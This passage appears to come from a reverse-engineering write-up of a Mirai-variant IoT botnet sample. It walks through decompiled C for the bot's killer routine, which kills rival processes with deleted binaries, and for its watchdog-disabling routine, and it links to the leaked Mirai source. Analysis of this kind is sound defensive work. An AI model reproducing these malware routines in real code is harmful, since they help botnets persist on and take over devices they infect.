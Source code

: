 ```c
...
```

It also searches for other processes (config ID 0x21..0x3a) and tries to kill them as well, but they are encrypted with key `0xdeadbeef` so decrypting them with `0xdedefbaf` results in garbage strings. For this reason this useless code is not shown here but the original implementation can be found [here](https://github.com/jgamblin/Mirai-Source-Code/blob/3273043e1ef9c0bb41bd9fcdc5317f7b797a2a94/mirai/bot/killer.c#L494).

It also looks for other processes that have their binary deleted which is often a sign of malware that tries to hide itself. 

```c
void mw_init_killer(void)

{
...
                iVar4 = mw_getpid();
                if (((pid == iVar4) || (iVar4 = mw_getppid(), pid == iVar4)) ||
                   (iVar4 = mw_strcmp(realpath,killer_realpath), iVar4 != 0)) break;
                iVar4 = mw_open(realpath,0);
                if (iVar4 == -1) {
                  mw_kill(pid,9);
                }
                mw_close(iVar4);
...
```

At the end it zeroes out `exe_path` because other processes might scan the memory as well.

```c
void mw_init_killer(void)

{
...
  mw_memset_zero(exe_path,0x40);
...
```

#### `mw_watchdog_handler`

`mw_watchdog_handler` disables the watchdog and keeps sending keepalives (in case the disabling did not work).

```c
void mw_watchdog_handler(void)

{
  undefined4 uVar1;
  int iVar2;
  undefined4 flags;
  
  DAT_00020da4 = mw_fork();
  if (0 < DAT_00020da4 || DAT_00020da4 == -1) {
    return;
  }
  flags = WDIOS_DISABLECARD;
  mw_decrypt_with_key(0x17); // /dev/watchdog
  mw_decrypt_with_key(0x18); // /dev/misc/watchdog
  uVar1 = mw_get_table_entry(0x17,0);
  iVar2 = mw_open(uVar1,2);
  if (iVar2 == -1) {
    uVar1 = mw_get_table_entry(0x18,0);
    iVar2 = mw_open(uVar1,2);
    if (iVar2 == -1) {
      mw_encrypt_with_key(0x17);
      mw_encrypt_with_key(0x18);
```